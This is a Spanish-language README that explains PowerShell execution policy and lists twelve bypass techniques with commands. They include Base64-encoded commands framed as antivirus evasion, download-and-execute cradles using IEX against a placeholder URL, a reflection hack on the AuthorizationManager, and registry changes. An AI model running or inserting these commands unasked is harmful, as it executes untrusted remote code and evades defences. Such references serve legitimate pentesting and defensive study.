<h1 align="center">Bypass PowerShell Execution Policy</h1>

<div align="center">
  
</div>

<h1>Índice</h1>

- [📝 Explicación de la política de ejecución PowerShell](#-explicación-de-la-política-de-ejecución-powershell)
- [⚙️ Modos de la política de ejecución (-ExecutionPolicy)](#️-modos-de-la-política-de-ejecución--executionpolicy)
  - [Tipos de ámbitos de la política de ejecución (-Scope)](#tipos-de-ámbitos-de-la-política-de-ejecución--scope)
- [⚡ Bypass PowerShell Execution Policy: Varias formas de eludir la política de ejecución de PowerShell](#-bypass-powershell-execution-policy-varias-formas-de-eludir-la-política-de-ejecución-de-powershell)
  - [1. Copiar y pegar el script o cargar las funciones directamente en una consola interactiva de PowerShell](#1-copiar-y-pegar-el-script-o-cargar-las-funciones-directamente-en-una-consola-interactiva-de-powershell)
  - [2. Leer la secuencia de comandos de un archivo y canalizar la salida a una entrada estándar de PowerShell](#2-leer-la-secuencia-de-comandos-de-un-archivo-y-canalizar-la-salida-a-una-entrada-estándar-de-powershell)
  - [3. Leer la secuencia de comandos de un archivo y canalizarla al comando Invoke-Expression](#3-leer-la-secuencia-de-comandos-de-un-archivo-y-canalizarla-al-comando-invoke-expression)
  - [4. Usar el parámetro ScriptBlock con Invoke-Command donde se lee el script desde un archivo y se canaliza a Invoke-Expression](#4-usar-el-parámetro-scriptblock-con-invoke-command-donde-se-lee-el-script-desde-un-archivo-y-se-canaliza-a-invoke-expression)
  - [5. Utilizar el parámetro EncodeCommand codificando el script en Base64 para evitar una posible detección por parte de los motores de AVs](#5-utilizar-el-parámetro-encodecommand-codificando-el-script-en-base64-para-evitar-una-posible-detección-por-parte-de-los-motores-de-avs)
  - [6. Descargar el script desde una URL y ejecutarlo con Invoke-Expression](#6-descargar-el-script-desde-una-url-y-ejecutarlo-con-invoke-expression)
  - [7. Desactivar la ExecutionPolicy cambiando el AuthorizationManager](#7-desactivar-la-executionpolicy-cambiando-el-authorizationmanager)
  - [8. Utilizar el flag "Bypass" de política de ejecución.](#8-utilizar-el-flag-bypass-de-política-de-ejecución)
  - [9. Utilizar el flag "Unrestricted" de política de ejecución.](#9-utilizar-el-flag-unrestricted-de-política-de-ejecución)
  - [10. Establecer la ExecutionPolicy para el ámbito del proceso](#10-establecer-la-executionpolicy-para-el-ámbito-del-proceso)
  - [11. Establecer la ExecutionPolicy para el ámbito del usuario actual](#11-establecer-la-executionpolicy-para-el-ámbito-del-usuario-actual)
  - [12. Establecer la ExecutionPolicy para el ámbito del usuario actual a través del Registro de Windows](#12-establecer-la-executionpolicy-para-el-ámbito-del-usuario-actual-a-través-del-registro-de-windows)


## 📝 Explicación de la política de ejecución PowerShell

La configuración de seguridad por defecto establecidas en PowerShell:

- Por defecto, no se ejecutan los scripts al hacer doble clic sobre ellos.
- Todos los scripts deben estar firmados digitalmente con un certificado digital de confianza por el sistema anfitrión para poder ser ejecutados.
- Todos los scripts no pueden ser ejecutados solo por su nombre en una sesión PowerShell, se debe espeficar la ruta relativa o absoluta.
- El código se ejecuta bajo el contexto del usuario.
- El código que se descarga a través de un navegador web o a través de clientes de correo electrónico que marcan el archivo como descargado de internet en los metadatos del archivo, se bloqueará la ejecución del archivo a menos que se permita específicamente.

Estos ajustes de seguridad por defecto proporcionan las siguientes protecciones:

- **Control of Execution**: Controlar el nivel de confianza para la ejecución de scripts.
- **Command Highjack**: Evitar la inyección de comandos en el home de usuario.
- **Identity**: Un script creado y firmado por un desarrollador en el que confío y/o firmado con un certificado de una Autoridad de Certificación de confianza.
- **Integrity**: Los scripts no pueden ser modificados por un malware o un usuario malintencionado.

Microsoft puso mucho cuidado y atención en minimizar la superficie de ataque de PowerShell cuando un atacante intenta engañar a un usuario para que ejecute un script posiblemente malicioso. Una vez en el sistema las cosas cambian ya que estos controles no pueden proteger de:

- Copiar y pegar el contenido del script en PowerShell.
- Codificar el script en Base64 y ejecutarlo desde la línea de comandos como argumento del powershell.exe.
- Introducir cada comando a mano y ejecutarlo.
- Realizar cambios de la política de ejecución en el contexto del usuario de PowerShell.




## ⚙️ Modos de la política de ejecución (-ExecutionPolicy)

Para controlar la validación de los scripts y cmdlets se utiliza [*Set-ExecutionPolicy*](https://learn.microsoft.com/es-es/powershell/module/microsoft.powershell.security/set-executionpolicy) especificando el parámetro [*-ExecutionPolicy*](https://learn.microsoft.com/es-es/powershell/module/microsoft.powershell.core/about/about_execution_policies#powershell-execution-policies).

- **Restricted**: No se puede ejecutar ningún script local, remoto o descargado en el sistema.
- **AllSigned**: Todas las secuencias de comandos que se ejecuten deben estar firmadas digitalmente por un usuario o entidad de confianza.
- **RemoteSigned**: Todos los scripts remotos (rutas UNC) o descargados necesitan estar firmados.
- **Unrestricted**: No es necesario firmar ningún script, todas las restricciones anteriores estarían deshabilitadas.

### Tipos de ámbitos de la política de ejecución (-Scope)

Cada una de estas políticas puede aplicarse a diferentes ámbitos para controlar a quién afectan. Esto se especifica con el parámetro [*-Scope*](https://learn.microsoft.com/es-es/powershell/module/microsoft.powershell.core/about/about_execution_policies#execution-policy-scope).

- **MachinePolicy**: La política de ejecución se establece por una Política de Grupo para todos los usuarios.
- **UserPolicy**: La política de ejecución se establece por una Política de Grupo para el usuario actual.
- **Process**: La política de ejecución se establece para el proceso actual de Windows PowerShell.
- **CurrentUser**: La política de ejecución se establece para el usuario actual.
- **LocalMachine**: La política de ejecución se establece para todos los usuarios.

Para obtener las directivas de ejecución de la sesión actual se puede comprobar con [*Get-ExecutionPolicy*](https://learn.microsoft.com/es-es/powershell/module/microsoft.powershell.security/get-executionpolicy)



---

## ⚡ Bypass PowerShell Execution Policy: Varias formas de eludir la política de ejecución de PowerShell

### 1. Copiar y pegar el script o cargar las funciones directamente en una consola interactiva de PowerShell



### 2. Leer la secuencia de comandos de un archivo y canalizar la salida a una entrada estándar de PowerShell
```ps
Get-Content .\BypassEP.ps1 | powershell.exe -noprofile -
type .\BypassEP.ps1 | powershell.exe -noprofile -
```



### 3. Leer la secuencia de comandos de un archivo y canalizarla al comando Invoke-Expression
```ps
Get-Content .\BypassEP.ps1 | Invoke-Expression
```
Comando corto
```ps
gc .\BypassEP.ps1 | iex
```



### 4. Usar el parámetro ScriptBlock con Invoke-Command donde se lee el script desde un archivo y se canaliza a Invoke-Expression
```ps
Invoke-Command -ScriptBlock { Get-Content .\BypassEP.ps1 | IEX }
```



### 5. Utilizar el parámetro EncodeCommand codificando el script en Base64 para evitar una posible detección por parte de los motores de AVs
```ps
$command = Get-Content BypassEP.ps1
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
PowerShell.exe -EncodedCommand $encodedCommand
```
Comando corto usando directamente la cadena codificada en Base64

- -enc: EncodedCommand (descodifica un comando de PowerShell desde un proceso en ejecución)
```ps
PowerShell.exe -enc VwByAGkAdABlAC0ASABvAHMAdAAgACIARQBzAHQAbwAgAGUAcwAgAHUAbgAgAGIAeQBwAGEAcwBzACAAZABlACAAUABTACAARQB4AGUAYwB1AHQAaQBvAG4AIABQAG8AbABpAGMAeQAiAA==
```



### 6. Descargar el script desde una URL y ejecutarlo con Invoke-Expression
```ps
powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('URL')"
powershell -nop -c "IEX(Invoke-WebRequest -Uri 'URL' -UseBasicParsing).Content"
```
- -nop: noprofile (ignora los comandos en el archivo de perfil)
- -c: command (ejecuta una instrucción de comandos)



### 7. Desactivar la ExecutionPolicy cambiando el AuthorizationManager
```ps
Function Disable-ExecutionPolicy {($ctx = $executionContext.GetType().GetField("_context","NonPublic,Instance").GetValue($executionContext)).GetType().GetField("_authorizationManager","NonPublic,Instance").SetValue($ctx, (New-Object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy ; .\BypassEP.ps1
```



### 8. Utilizar el flag "Bypass" de política de ejecución.
```ps
PowerShell.exe -ExecutionPolicy Bypass -File .\BypassEP.ps1
PowerShell.exe -exec Bypass -File .\BypassEP.ps1
```
- -ExecutionPolicy Bypass o –exec BypassBypass: omitir/ignora la política de ejecución como Restringido, que restringe la ejecución de los scripts de PowerShell.



### 9. Utilizar el flag "Unrestricted" de política de ejecución.
```ps
PowerShell.exe -ExecutionPolicy Unrestricted -File .\BypassEP.ps1
```



### 10. Establecer la ExecutionPolicy para el ámbito del proceso
```ps
Set-ExecutionPolicy Bypass -Scope Process ; .\BypassEP.ps1
```



### 11. Establecer la ExecutionPolicy para el ámbito del usuario actual
```ps
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy Unrestricted ; .\BypassEP.ps1
```



### 12. Establecer la ExecutionPolicy para el ámbito del usuario actual a través del Registro de Windows
```ps
New-ItemProperty -Path 'HKCU:Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell' -Name 'ExecutionPolicy' -Value "Unrestricted" -PropertyType String -Force
```
```
HKEY_CURRENT_USER\Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell
ExecutionPolicy = Unrestricted
```
